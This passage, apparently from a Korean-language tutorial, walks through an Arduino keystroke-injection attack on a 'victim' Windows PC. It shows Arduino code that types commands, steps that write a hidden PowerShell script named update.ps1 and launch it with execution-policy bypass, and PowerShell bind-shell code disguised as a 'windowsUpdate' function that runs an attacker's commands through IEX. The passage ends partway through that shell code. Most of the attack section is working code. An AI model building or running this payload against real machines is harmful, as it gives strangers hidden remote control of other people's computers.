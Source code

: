 ```js
    Keyboard.println("$s.close()");
    delay(200);
    Keyboard.println("exit");
    delay(200);

    for(int i=0; i<sizeof(stringArray)-1; i++)
        stringArray[i] = Serial.read();

    EEPROM.put(1, stringArray);
}
void ipaddr() {
    delay(500);
    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.println("notepad");
    delay(700);
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
    Keyboard.print(EEPROM.get(1, stringArray));
}
```

위의 코드는 복잡해 보일 수 있으니, 단계별로 살펴보도록 하죠:

<div class="content-ad"></div>

- 아두이노를 피해자 컴퓨터에 연결한 후 왼쪽 버튼을 누르면, 프로그램이 명령 프롬프트를 실행하고, 거기에 PowerShell 쉘 코드를 저장하는 updateSource라는 명령 프롬프트 변수를 생성합니다.
- 그 후에 프로그램은 updateSource의 값이 기록된 PowerShell 스크립트 update.ps1을 생성합니다.
- 마지막으로 프로그램은 명령 프롬프트 코드 powershell -ep bypass -windowstyle hidden -file update.ps1을 실행합니다. 이로써 update.ps1 프로그램이 백그라운드에서 실행됨을 보장합니다.
- Exploit을 마치기 전에, 프로그램은 다시 PowerShell을 실행하고 피해자의 IP 주소를 EEPROM에 기록합니다. 이것은 이전에 설명한 WiFi 암호를 전송하는 것과 유사합니다.
- 아두이노를 피해자 컴퓨터에서 분리한 후 내 컴퓨터에 연결합니다. 이번에는 오른쪽 버튼을 눌러 피해자의 IP 주소를 언로드합니다.
- bind shell을 설정하기 위해 netcat 연결을 수립하여 공격을 완료합니다.

아래는 정리된 셸 코드 버전입니다:

```js
# 쉘 기능 정의
function windowsUpdate {
  $stream = $client.GetStream();
  [byte[]]$bytes = 0..65535 | %{0};
  $sendbytes = ([text.encoding]::ASCII).GetBytes('Running as user '+$env:username+' on '+$env:computername+'.');
  $stream.Write($sendbytes, 0, $sendbytes.Length);
  $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>');
  $stream.Write($sendbytes, 0, $sendbytes.Length);
  while (($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0) {
    $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding;
    $data = $EncodedText.GetString($bytes,0,$i);
    
    try {
      # 공격자로부터 명령 수신
      $sendback=(IEX -Command $data 2 >&1 | Out-String );
    }
    catch {}
    $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> ';
    $x = ($error[0] | Out-String);
    $error.clear();
    $sendback2 = $sendback2 + $x;
```